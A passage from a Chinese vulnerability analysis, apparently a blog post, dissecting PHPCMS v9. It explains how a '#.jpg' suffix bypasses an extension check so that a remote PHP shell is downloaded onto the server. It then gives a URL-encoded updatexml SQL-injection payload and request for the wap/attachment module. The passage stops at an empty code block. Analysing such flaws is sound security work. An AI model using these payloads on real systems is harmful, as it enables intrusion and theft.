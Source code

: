 ```php
    $remotefileurls = array_unique($remotefileurls);
    $oldpath = $newpath = array();
    foreach($remotefileurls as $k=>$file) {
        if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
        $filename = fileext($file);
        $file_name = basename($file);
        $filename = $this->getname($filename);

        $newfile = $uploaddir.$filename;
        $upload_func = $this->upload_func;
        if($upload_func($file, $newfile)) {
            $oldpath[] = $k;
            $GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
            @chmod($newfile, 0777);
            $fileext = fileext($filename);
            if($watermark){
                watermark($newfile, $newfile,$this->siteid);
            }
            $filepath = $dir.$filename;
            $downloadedfile = array('filename'=>$filename, 'filepath'=>$filepath, 'filesize'=>filesize($newfile), 'fileext'=>$fileext);
            $aid = $this->add($downloadedfile);
            $this->downloadedfiles[$aid] = $filepath;
        }
    }
    return str_replace($oldpath, $newpath, $value);
}
```
首先使用new_stripslashes函数删除反斜杠，然后进行正则匹配
```php
if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i",$string, $matches)) return $value;
```
这里正则要求输入满足`src/href=url.(gif|jpg|jpeg|bmp|png)`，这就是为什么后面要加.jpg的原因，然后进入fillurl函数进行处理
![](https://img-blog.csdnimg.cn/img_convert/4073d40e28d65f5d9f63a16ee103d869.png)
发现会在`#`那里进行截取，那么就可以使用`#.jpg`绕过，那么url变为了`http://192.168.111.1:8000/bmth.php`
![](https://img-blog.csdnimg.cn/img_convert/f8f6c27454a54196e58dea65ea6aa7c9.png)
最后调用了copy函数，对远程的文件进行下载
![](https://img-blog.csdnimg.cn/img_convert/234aabd357a7aa466d86cfe1b01b6210.png)
程序在下载之后回到了register函数中，可以看到当`$status > 0`时会执行insert操作
![](https://img-blog.csdnimg.cn/img_convert/bc6bb9b2a417ceb65eb8842cbb9d049a.png)
也就是向v9_member_detail表中的content和userid两列插入数据
![](https://img-blog.csdnimg.cn/img_convert/2d030a8321e16a0a6cba3c4af877bc6d.png)
因为表中并没有content列，所以产生报错，从而将插入数据中的 shell 路径返回给了我们

#### wap模块sql注入
首先访问`?m=wap&c=index&a=init&siteid=1`，获得到cookie
![](https://img-blog.csdnimg.cn/2021071021241668.png)
然后将这个cookie值作为userid_flash的值
```
?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id%3D%25%2A27%20and%20updatexml%281%2Cconcat%280x7e%2C%28select%20database%28%29%29%2C0x7e%29%2C1%29%2523%26modelid%3D1%26catid%3D1%26m%3D1%26f%3D

POST:
userid_flash=e65cAX34kIXJjOovCDECkhcccMtYIMrPvFZF5Rz7
```
![](https://img-blog.csdnimg.cn/20210710212739781.png)
得到GiZXP_att_json的值，最后作为a_k的payload传入
```
```